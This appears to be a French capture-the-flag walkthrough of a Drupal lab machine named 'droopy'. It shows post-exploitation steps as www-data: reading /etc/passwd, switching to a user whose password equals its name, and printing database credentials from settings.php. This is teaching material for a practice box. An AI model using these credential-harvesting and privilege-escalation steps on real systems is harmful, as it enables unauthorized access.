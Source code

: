 ```console

www-data@droopy:/var/www/html$ 
```

## Élévation fortuite de privilèges

Nous sommes connectés en tant que ```www-data``` sur le serveur. Partons à la recherche de fichiers intéressants...

```console
www-data@droopy:/var/www/html$ ls
ls
CHANGELOG.txt	    LICENSE.txt      includes	  modules     update.php
COPYRIGHT.txt	    MAINTAINERS.txt  index.html   profiles    web.config
INSTALL.mysql.txt   README.txt	     index.php	  robots.txt  xmlrpc.php
INSTALL.pgsql.txt   UPGRADE.txt      info.php	  scripts
INSTALL.sqlite.txt  authorize.php    install.php  sites
INSTALL.txt	    cron.php	     misc	  themes
```

Seuls deux utilisateurs ont un accès bash au serveur : ```root``` et ```gsuser```.

Surprise, la tentative login = mot de passe a fonctionné pour le compte ```gsuser``` !

```console
www-data@droopy:/var/www/html$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gsuser:x:1000:1000:Generic User,,,:/home/gsuser:/bin/bash

www-data@droopy:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@droopy:/var/www/html$ su - gsuser
su - gsuser
Password: gsuser

gsuser@droopy:~$ id
id
uid=1000(gsuser) gid=1000(gsuser) groups=1000(gsuser),24(cdrom),30(dip),46(plugdev),110(lpadmin)
```

## Accès à la base de données MySQL

Le fichier ```settings.php``` contient les identifiants de connexion à la base de données du serveur.

```console
www-data@droopy:/var/www/html/sites/default$ sed -n -e 213,227p settings.php
sed -n -e 213,227p settings.php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'nimda',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```